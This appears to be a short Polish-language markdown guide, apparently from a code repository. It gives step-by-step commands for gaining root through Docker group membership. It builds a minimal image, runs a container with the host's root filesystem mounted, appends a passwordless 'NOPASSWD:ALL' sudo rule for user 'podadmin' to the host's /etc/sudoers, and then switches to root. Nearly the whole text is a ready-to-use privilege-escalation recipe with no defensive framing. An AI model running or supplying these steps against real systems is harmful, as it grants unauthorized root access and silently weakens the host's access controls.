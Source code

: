 # =============== MAJSTER -> user ===============

## Tworzymy w folderze domowym usera podadmin folder dajroot w którym umieszczamy skrypt

- ### mkdir /home/podadmin/dajroot
- ### cd /home/podadmin/dajroot
- ### nano dockerfile
    
    FROM dockette/wheezy
    ENV WORKDIR /dajroot
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
    


## Budujemy skrypt w folderze
- ### docker build -t dajroot .

## Sprawdzamy, czy się zainstalował
- ### docker images

## Odpalamy container
- ### docker run -v /:/dajroot -it dajroot /bin/bash

## Będąc w kontenerze wpisujemy
- ### cd..
- ### echo "podadmin ALL=(ALL) NOPASSWD:ALL" >> /dajroot/etc/sudoers

## Patrzytmy czy w pliku sudoers jest dopisek "podadmin ALL=(ALL) NOPASSWD:ALL"
- ### cat dajroot/etc/sudoers

## Wychodzimy z containera
- ### exit

## Robimy przejecie roota
- ### sudo su

===================